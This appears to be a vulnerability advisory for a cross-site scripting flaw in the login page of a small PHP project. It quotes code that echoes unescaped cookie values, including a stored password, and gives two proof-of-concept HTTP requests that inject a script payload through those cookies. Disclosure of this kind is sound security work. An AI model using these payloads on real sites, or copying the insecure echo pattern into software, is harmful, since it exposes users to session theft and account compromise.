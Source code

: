 ## Vulnerability Details

**Credits**: 
> Reigz Macolor (https://github.com/reigz/)<br/>

**Tested On**:
> [Secret-Coder-PHP-Project 1.0](https://github.com/keerti1924/Secret-Coder-PHP-Project/) <br/>

**Affected Version**:
> keerti1924/Secret-Coder-PHP-Project 1.0

**Affected Site Page**: 
> /login.php<br/>

**Affected Code**: 
> <https://github.com/keerti1924/Secret-Coder-PHP-Project/blob/main/login.php> <br/>
```php
<input type="email" class="form-control" id="email" name="email"
placeholder="Email Address" value="<?php
if (isset($_COOKIE['emailcookie'])) {
    echo $_COOKIE['emailcookie'];
} ?>">
```

```php
<input type="password" class="form-control" id="password" name="password"
placeholder="Password" value="<?php
if (isset($_COOKIE['passwordcookie'])) {
    echo $_COOKIE['passwordcookie'];
} ?>">
```

**Related CWE:**
> [CWE-79: Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting')](https://cwe.mitre.org/data/definitions/79.html)

## **Details:**
> Login page of Secret-Coder-PHP-Project is vulnerable to XSS by modifying cookies `emailcookie` and `passwordcookie` making the website vulnerable on 2 instances.

Option 1:
```http 
GET /login.php HTTP/2
Host: [REDACTED]
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
Cookie: emailcookie="><script>alert('xss via emailcookie by reigz')</script>
```
![emailcookie](https://github.com/smurf-reigz/security/assets/48426940/c37efe3d-daca-4635-8202-c972795359b9)

Option 2:
```http 
GET /login.php HTTP/2
Host: [REDACTED]
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
Cookie: passwordcookie="><script>alert('xss via passwordcookie by reigz')</script>
```
![passwordcookie](https://github.com/smurf-reigz/security/assets/48426940/2043088d-1ef0-466a-b684-06f26e6b70a5)

## **Vulnerability Impact:**
> Once the malicious script is injected, the attacker can perform a variety of malicious activities. The attacker could transfer private information, such as cookies that may include session information, from the victim's machine to the attacker. The attacker could send malicious requests to a web site on behalf of the victim, which could be especially dangerous to the site if the victim has administrator privileges to manage that site. Phishing attacks could be used to emulate trusted web sites and trick the victim into entering a password, allowing the attacker to compromise the victim's account on that web site. Finally, the script could exploit a vulnerability in the web browser itself possibly taking over the victim's machine, sometimes referred to as "drive-by hacking."
